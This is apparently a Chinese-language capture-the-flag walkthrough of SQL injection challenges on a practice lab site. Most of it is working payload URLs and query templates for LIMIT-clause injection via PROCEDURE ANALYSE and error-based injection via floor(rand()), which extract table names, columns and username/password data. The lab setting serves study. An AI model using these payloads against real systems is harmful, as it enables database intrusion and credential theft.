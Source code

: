 遇到limit的注入的时候，可以使用如下的语句进行报错注入。
```bash
select field from user where id=XXX order by id limit 1,1 procedure analyse (extractvalue(rand(),concat(0x3a,SQL注入语句)),1);
```
得到表名article,user
```bash
http://lab1.xseclab.com/sqli5_5ba0bba6a6d1b30b956843f757889552/index.php?start=0%20procedure%20analyse(extractvalue(rand(),concat(0x3a,(select%20group_concat(table_name)%20from%20information_schema.tables%20where%20table_schema=database()))),1)%23%20&num=100%20%23
```
得到user表中的字段id,username,password,lastloginI
```bash
http://lab1.xseclab.com/sqli5_5ba0bba6a6d1b30b956843f757889552/index.php?start=0%20procedure%20analyse(extractvalue(rand(),concat(0x3a,(select%20group_concat(column_name)%20from%20information_schema.columns%20where%20table_name=0x75736572))),1)%23%20&num=100%20%23
```
字段数据
```bash
http://lab1.xseclab.com/sqli5_5ba0bba6a6d1b30b956843f757889552/index.php?start=6 procedure analyse(extractvalue(rand(),concat(0x3a,(select group_concat(username,password) from user))),1)%23
&num=100 %23
```
# 图片宽字节注入

在页面上看不出显示的结果，要在burpsuite上查看
网上说是图片宽字节注入，一直抓不到图片的数据包，只好作罢

# 报错注入
[一些常见的报错注入]( http://blog.csdn.net/mvcandroid/article/details/73995898 )
报错注入语句
```bash
select count(*),concat(0x3a,0x3a,(注入语句),0x3a,0x3a,floor(2*rand(0)))a FROM information_schema.tables GROUP BY a
```
得到数据库名
```bash
http://lab1.xseclab.com/sqli7_b95cf5af3a5fbeca02564bffc63e92e5/index.php?username=admin' union select count(*),concat(0x3a,0x3a,(select database()),0x3a,0x3a,floor(2*rand(0)))a FROM information_schema.tables GROUP BY a %23
```
得到表名
```bash
http://lab1.xseclab.com/sqli7_b95cf5af3a5fbeca02564bffc63e92e5/index.php
?username=admin' union select count(*),concat(0x3a,0x3a,(select distinct table_name from information_schema.columns where table_schema=database() limit 0,1),0x3a,0x3a,floor(2*rand(0)))a FROM information_schema.tables GROUP BY a %23

```
得到字段名
```bash
http://lab1.xseclab.com/sqli7_b95cf5af3a5fbeca02564bffc63e92e5/index.php?username=admin' union select count(*),concat(0x3a,0x3a,(select column_name from information_schema.columns where table_name=0x6c6f67 limit 0,1),0x3a,0x3a,floor(2*rand(0)))a FROM information_schema.tables GROUP BY a %23
```
得到表中有多少条数据
```bash
http://lab1.xseclab.com/sqli7_b95cf5af3a5fbeca02564bffc63e92e5/index.php?username=admin' union select count(*),concat(0x3a,0x3a,(select count(*) from motto),0x3a,0x3a,floor(2*rand(0)))a FROM information_schema.tables GROUP BY a %23
```
脱裤失败
```bash
http://lab1.xseclab.com/sqli7_b95cf5af3a5fbeca02564bffc63e92e5/index.php
```